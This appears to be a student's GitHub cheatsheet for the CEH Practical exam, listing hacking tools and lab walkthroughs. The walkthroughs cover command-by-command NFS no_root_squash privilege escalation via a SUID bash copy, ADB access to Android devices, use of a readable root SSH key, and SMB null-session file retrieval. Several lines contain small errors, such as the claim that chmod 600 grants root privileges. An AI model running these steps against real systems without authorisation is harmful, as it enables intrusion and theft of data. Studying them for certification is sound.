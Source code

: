 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes


**xfreerdp /u:[username] /p:[password] /v:[ip_address]** 
Exam RoadMap
1,2,8,11,12,16,17,18,20,7 (10 marks)  10,19,4,5,15,14,13,6,3,9  

**Priviledge Escalation**
**Misconfigured nfs shares**
**Victim machine log in to target or ssh into it**
1. root@ubuntu:~# Sudo apt-get update
2. root@ubuntu:~# Sudo apt install nfs-kernel-server
3. root@ubuntu:~# sudo nano etc/exports 
>> This is what you add the entry inside the exports file:  /home   *(rw,no_root_squash)
4. root@ubuntu:~# sudo /etc/init.d/nfs-kernel-server restart (you have to restart the server)
5. root@ubuntu:~#
**Attacker machine**
You should see port 2049 open after scanning 
1. attacker@parrot:~#sudo nmap -sV [IP]
2. Do this manually nfs enumerate 
3. attacker@parrot:~# apt-get install nfs-common 
4. attacker@parrot:~#showmount -e [IP Addrr]) or attacker@parrot:~#sudo nmap -sV --script=nfs-showmount [victim IP]
5. attacker@parrot:~#mkdir  /tmp/nfs
6. attacker@parrot:~#sudo mount -t nfs [IP]:/home  /tmp/nfs
7. attacker@parrot:~#cd  /tmp/nfs
8. attacker@parrot:~#sudo cp /bin/bash .
9. attacker@parrot:~#sudo chmod +s bash
10. attacker@parrot:~#ls -la bash (you can see all the privileges) 
11. ttacker@parrot:~#ssh ubuntu@[IP] (now we can ssh into our target machine) 
12. attacker@parrot:~#cd /home
13. attacker@parrot:~#ls -la
14. attacker@parrot:~#./bash -p 
15. id
16. whoami

Priviledge Escalation 2
Exploiting misconfigured NFS (port 2049)
1.	nmap -sV —p 2049 IP/Subnet
2.	sudo apt-get install nfs-common
3.	nmap -sV —script=nfs-showmount <Target_IP>
4.	check available mounts: showmount -e <Target_IP> -> we will see /home directory
5.	mkdir /tmp/nfs
6.	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
7.	cd /tmp/nfs
8.	sudo cp /bin/bash .
9.	sudo chmod +s bash -> it will be highlighted in red
10.	ls -la
11.	sudo df -h
12.	sudo chmod +s bash
after them, In another terminal:
	1. Access to target using SSH
	2. ./bash -p and we're root!
	3. cd /home
	4. ls -la
	5. Find the flag: find / -name "*.txt" -ls 2> /dev/null



**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
1.	Scan adb port: nmap ip -sV -p 5555
2.	Connect adb: adb connect IP:5555
3.	Access mobile device: adb shell
4.	Elevate privilege using: sudo -i (if it is possile)
5.	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
6.	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
7.	We've three elf files, now we need to calculate entropy for each of them using this command: ent file.elf
8.	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

Vertical Privilege escalation 
1. ssh smith@Ip –p 1337
2. sudo -L to check on users
3. cd /root then ls to see the .txt file, try to cat the file but permission is denied
4. then find the .ssh file 
5. then you cat id_rsa file key. Copy the key from beginning to end then nano id_rsa and paste the key
6. chmod 600 id_rsa  this give it root privileges 
7. as you are logged ,ssh root@ipaddrr –p 1336 –I id_rsa then you will have performed a vertical privilege escalation 

SMB Connection
1. smbclient -L <TARGET_IP> -N
2. smbclient -L <TARGET_IP> -U <USER>
3. smbclient //<TARGET_IP>/<USER> -U <USER>
4. smbclient //<TARGET_IP>/admin -U admin
5. smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
1. smbclient //<TARGET_IP>/share_name
2. help
3. ls
4. get <filename>

smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\flag.txt'
